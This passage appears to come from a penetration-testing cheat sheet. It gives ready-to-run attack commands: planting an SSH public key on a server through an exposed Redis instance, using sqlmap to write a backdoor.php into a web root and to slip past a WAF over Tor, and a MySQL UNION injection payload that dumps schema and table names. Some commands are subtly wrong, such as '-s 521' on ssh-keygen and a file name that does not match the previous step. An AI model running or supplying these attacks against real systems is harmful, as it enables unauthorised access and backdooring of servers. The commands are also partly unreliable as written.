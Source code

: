 * [book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)


#### Inject SSH PubKey

```
root@kali:$ ssh-keygen -t ecdsa -s 521 -f key
root@kali:$ (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
root@kali:$ redis-cli -h 127.0.0.1 flushall
root@kali:$ cat foo.txt | redis-cli -h 127.0.0.1 -x set pwn
root@kali:$ redis-cli -h 127.0.0.1 config set dbfilename authorized_keys
root@kali:$ redis-cli -h 127.0.0.1 config set dir /var/lib/redis/.ssh
root@kali:$ redis-cli -h 127.0.0.1 save
```

* [packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)
* [2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)




## SQLi



### sqlmap

* [Usage · sqlmapproject/sqlmap Wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
* [PayloadsAllTheThings/SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#sql-injection-using-sqlmap)

Write file:

```
$ sqlmap -r request.req --batch --file-write=./backdoor.php --file-dest=C:/Inetpub/wwwroot/backdoor.php
```

Test WAF:

```
$ sqlmap.py -u 'https://127.0.0.1' --data='{"param":"*"}' -p 'param' -v3 --identify-waf --tamper='between,randomcase,space2comment' --random-agent --tor --check-tor --thread=1 --batch
```

* [www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/](https://www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/)



### DIOS

MySQL:

```
id=1' UNION SELECT 1,(SELECT (@a) FROM (SELECT (@a:=0x00),(SELECT (@a) FROM (information_schema.columns) WHERE (@a) IN (@a:=concat(@a,'<font color=red>',table_schema,'</font>',' ::: ','<font color=green>',table_name,'</font>','<br>'))))a);-- -

SELECT (@a) FROM (
	SELECT(@a:=0x00), (
		SELECT (@a) FROM (information_schema.schemata)
		WHERE (@a) IN (@a:=concat(@a,schema_name,'\n'))
	)
) foo
```
